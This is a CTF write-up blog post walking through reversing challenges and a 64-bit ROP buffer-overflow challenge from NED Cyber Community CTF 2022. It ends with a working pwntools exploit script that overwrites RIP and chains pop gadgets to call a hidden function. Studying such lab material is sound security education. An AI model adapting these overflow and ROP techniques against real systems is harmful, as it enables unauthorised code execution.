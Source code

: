 ```yaml
---
title: "NCC CTF 2022 - Rev & BinExp Challenges Writeup"
author: "Signore"
date: 2022-07-20
summary: "Walkthrough of Reversing & Binary Exploitation challenges presented at NED Cyber Community CTF 2022"
description: ""
categories: ["CTF Writeups"]
tags: ["r2", "reverse engineering"]
series: [""]
keywords: ["rev", "binary", "r2", "radare2", "rizin", "reverse engineering", "ghidra"]
ShowToc: true
cover:
  image: "images/cover-ncc-ctf-2022.png"
  caption: "cover"

---
```


:bulb: Rizin is a fork of radare2, one of the most popular reverse engineering tools.

## Reversing Warmup

We run `strings` on the binary and get our flag:

{{< terminal title="Terminal" >}}
![](chall-1.png)
{{< /terminal >}}

I later ran the binary, and it just gave the flag. Silly me!
{{< terminal title="Terminal">}}
![](chall-11.png)
{{< /terminal >}}
## Can You C Me

Running the binary asks us for correct password which we don't know yet.

Upon opening the binary with rizin, we can see our flag right there but it's scattered. We can also see another string which resembles a password.
{{< terminal title="Terminal" >}}
![](chall-20.png)
{{< /terminal >}}

Providing that password to the binary, we get our flag:
{{< terminal title="Terminal" >}}
![](chall-21.png)
{{< /terminal >}}

## Modulus Encryption

The flag for the challenge has been encrypted using the `encryption.py` python script and the generated output is the `output.txt` file. Our goal is to decrypt the flag.

The script is taking input data as `flag.txt`. The `encrypt` function gets the unicode code of each character present in the file with `ord()` and adds some integers to it. Then, it converts the characters back to ASCII with `chr()`.
{{< terminal title="Terminal" >}}
![](chall-30.png)
{{< /terminal >}}

We take the encrypted data `output.txt` as input. After getting the unicode, instead of adding, we modify the original technique a bit by subtracting the integers and then converting back to ASCII.

Upon running the modified script, we get the flag.
{{< terminal title="Terminal" >}}
![](chall-31.png)
{{< /terminal >}}

## Make it Go!

Running the binary asks us to enter password.

Opening the challenge file in `rizin`, we `seek` to `main` function and disassemble it. 
{{< terminal title="Terminal" >}}
![](chall-40.png)
{{< /terminal >}}

Going a bit down, we can see the `Enter_Password` string which is later being printed in the console with a `call` to `Fprint`:
{{< terminal title="Terminal" >}}
![](chall-41.png)
{{< /terminal >}}

Going futher down, we see there is the call to `Fscanln` which is taking user input. In the next instructions, there's a string comparison being made and then there is the `jne` (jump if not equal) instruction from which we can deduce that there's a condition being checked.

We can see that the user input is being compared to `0x45ea856`.
{{< terminal title="Terminal" >}}
![](chall-42.png)
{{< /terminal >}}

On providing the hex number to our binary, we get the flag:
{{< terminal title="Terminal" >}}
![](chall-43.png)
{{< /terminal >}}


## Pokemon Evolution

:bulb: [Here](http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf) is a nice resource for ROP.

We are given challege files as `pokemon_challenge.zip`. The binary prints out some ASCII art and asks us for input `Feed :`

We open the challenge binary in `cutter` (GUI for rizin). I have the decompiler plugin installed, so we navigate to `Decompiler` tab.

Along `main` and `register_name` functions, we can see another function `hacked`. In the decompiled code, we can see that an `if` condition is checking the function arguments. We can also see the values against which the params are being compared.

![](chall-50-cutter.png)

After trying random input lengths for quite a bit, the offset for RIP comes out to be `24`.
{{< terminal title="Terminal" >}}
![](chall-51.png)
{{< /terminal >}}

Now that we have RIP under control, we need to find the memory addresses of `hacked` funtion and ROP gadgets.

As we studied [here](http://localhost:1313/blog/posts/pwn-0x00-warmup/#03-architectures-comparison), if the binary was 32-bit, we could have just pushed the function arguments onto the stack. But, as our binary is 64-bit and arguments are being accessed through `registers`, we'll take the help of ROP gadgets to achieve our goal. 

We can find the memory address of the `hacked` function with gdb and ROP gadgets with `ropper`.

{{< terminal title="Terminal" >}}
![](chall-52-0.png)
{{< /terminal >}}
{{< terminal title="Terminal" >}}
![](chall-52-1.png)
{{< /terminal >}}

Putting it all together, our final exploit script looks like this:
{{< terminal title="VSCodium - exploit.py">}}
```py {linenos=true}
#!/usr/bin/python
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pokemon_evolve'
elf = context.binary = ELF(exe, checksec=False)

padding="A"*24
hacked_function_addr = 0x40119a
pop_rdi = 0x401196
pop_rsi = 0x401198

payload = flat(padding, pop_rdi, 0xdeadbeefdeadbeef,
    pop_rsi, 0xc0debabec0debabe, hacked_function_addr)

io = start()
io.recvuntil("Feed :")
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

On running the exploit, we successfully execute `hacked` function and bypass the conditional check by providing right arguments which, along with the beautiful dragon, returns the contents of `flag.txt`.
{{< terminal title="Terminal" >}}
![](chall-53.png)
![](chall-54.png)
{{< /terminal >}}

Since I did the challenge really late, the remote server wasn't responding anymore and I could pwn the binary locally only.

Initially, my exploit wasn't working and I was going mad about it.<br>
Later, @MoLover shared his exploit script with offset `24` while my exploit had `22`. Thanks to him, as soon as I changed the offset of RIP in my exploit it, eventually, worked!